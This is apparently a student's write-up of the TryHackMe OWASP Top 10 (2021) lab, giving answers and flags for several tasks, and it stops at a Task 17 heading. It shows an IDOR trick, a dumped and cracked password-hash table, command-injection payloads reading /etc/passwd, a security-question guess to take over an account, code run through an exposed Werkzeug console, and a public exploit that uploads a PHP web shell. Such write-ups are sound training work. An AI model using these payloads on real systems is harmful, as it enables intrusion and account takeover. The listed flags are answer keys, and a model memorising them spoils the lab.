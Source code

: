 # Owasp top 10 (2021)

**Date**: 28, August, 2024  
**Author**: P.Hima Bindu  

---

[Click Here](https://tryhackme.com/r/room/owasptop102021) to go to the TryHackMe room.

---

![Description](./Images/img1.png)

Deploy the machine and go to [http://MACHINE_IP](http://MACHINE_IP) - Login with the username **noot** and the password **test1234**.


### **Task 4 :** Broken Access Control (IDOR Challenge)

- Look at other users' notes. What is the flag?
  - Try to change the 'note_id=1' parameter to something else. I tried 'note_id=2/3/4', At 'note_id=5' I get a hint displayed in the screen.
  - **Hint** - Do note_ids start from 1? Maybe go lower ;)
  - Then changed the 'note_id=0', Boom! I got the flag
  - **flag{fivefourthree}**


### **Task 8 :** Cryptographic Failures(Challenge)

connect to the web application at http://Machine_IP/.

##
- What is the name of the mentioned directory?

```bash
curl http://10.10.134.171:81/login.php
```

observe the page, you can find this :  Must remember to do something better with the database than store it in **/assets**...

- Ans - **/assets**
##

##
- Navigate to the directory you found in question one. What file stands out as being likely to contain sensitive data? (Navigate to - http://10.10.134.171:81/assets)

![Description](./Images/img2.png)

- Ans - **webapp.db**
##

##
- Use the supporting material to access the sensitive data. What is the password hash of the admin user?

```bash 
sqlite3 webapp.db
SQLite version 3.22.0 2018-01-22 18:45:57
Enter ".help" for usage hints.
sqlite> .tables
sessions  users   
sqlite> PRAGMA table_info(sessions)
   ...> ;
0|sessionID|TEXT|1||1
1|userID|TEXT|1||0
2|expiry|INT|1||0
sqlite> PRAGMA table_info(users);
0|userID|TEXT|1||1
1|username|TEXT|1||0
2|password|TEXT|1||0
3|admin|INT|1||0
sqlite> SELECT * FROM users;
4413096d9c933359b898b6202288a650|admin|6eea9b7ef19179a06954edd0f6c05ceb|1
23023b67a32488588db1e28579ced7ec|Bob|ad0234829205b9033196ba818f7a872b|1
4e8423b514eef575394ff78caed3254d|Alice|268b38ca7b84f44fa0a6cdc86e6301e0|0

```
- Ans - **6eea9b7ef19179a06954edd0f6c05ceb**
##

##
- What is the admin's plaintext password?
  - use the crackstation online tool for cracking the hash

![Description](./Images/img3.png)  

  - Ans - **qwertyuiop**
##

##
- Log in as the admin. What is the flag?

  - username=admin, password=qwertyuiop

![Description](./Images/img4.png) 

- Ans - **THM{Yzc2YjdkMjE5N2VjMzNhOTE3NjdiMjdl}**
##



### 3.1 Command Injection (Task 10)

navigate to http://Machine_IP:82/ and exploit the cowsay server

##
- What strange text file is in the website's root directory?

- $(ls) 

![Description](./Images/img8.png) 

- Ans: **drpepper.txt**

##

##
- How many non-root/non-service/non-daemon users are there?

- $(cat /etc/passwd)

- Here in the passwd file, there are no non-root users/non-service/non-demon. So the answer is:
- Ans: **0**

##

##
- What user is this app running as?

- $(whoami)

![Description](./Images/img6.png) 

- Ans: **apache**

##

##

- What is the user's shell set as?

- $(cat /etc/passwd)

![Description](./Images/img7.png)

- Ans: **/sbin/nologin**
##

##
- What version of Alpine Linux is running?

- $(cat /etc/alpine-release)

![Description](./Images/img5.png)

- Ans: **3.16.0**
##

### 4.Insecure Design (Task 11)

- Navigate to http://MACHINE_IP:85 and get into joseph's account. 

  - Try to reset joseph's password.
  - Try to answer the security question which validates the user's favirote color.. First TRY with VIBGEYOR(violet,indigo,blue,green,yellow,orange,red) 
  - At **green** it was true....
  - get the password and login to the account.

![Description](./Images/img9.png)

![Description](./Images/img10.png)


**Flag - THM{Not_3ven_c4tz_c0uld_sav3_U!}**

##

##

### 5.Security Misconfiguration (Task 12)

 - Navigate to http://MACHINE_IP:86/console to access the Werkzeug console.

  -  import os; print(os.popen("ls -l").read())

  - ![Description](./Images/img11.png)

  - Modify the code to read the contents of the app.py file, which contains the application's source code. What is the value of the secret_flag variable in the source code?

  - ![Description](./Images/img12.png)

  - **Flag -** **THM{Just_a_tiny_misconfiguration}**

##  


## 

### Vulnerable and Outdated Components - Lab (Task 15)

- Navigate to http://MACHINE_IP:84 where you'll find a vulnerable application. All the information you need to exploit it can be found online. 

  - search and download the exploit - i.e [47887.py]

  - Run the following command

```bash
python3 47887.py http://10.10.31.234:84 
> Attempting to upload PHP web shell...
> Verifying shell upload...
> Web shell uploaded to http://10.10.31.234:84/bootstrap/img/8T1IdSEuVy.php
> Example command usage: http://10.10.31.234:84/bootstrap/img/8T1IdSEuVy.php?cmd=whoami
> Do you wish to launch a shell here? (y/n): y
RCE $ cat /opt/flag.txt
THM{But_1ts_n0t_my_f4ult!}
```

![Description](./Images/img13.png)

- **Flag-** **THM{But_1ts_n0t_my_f4ult!}**

##



##


## Identification and Authentication Failures - Practical (Task 17)
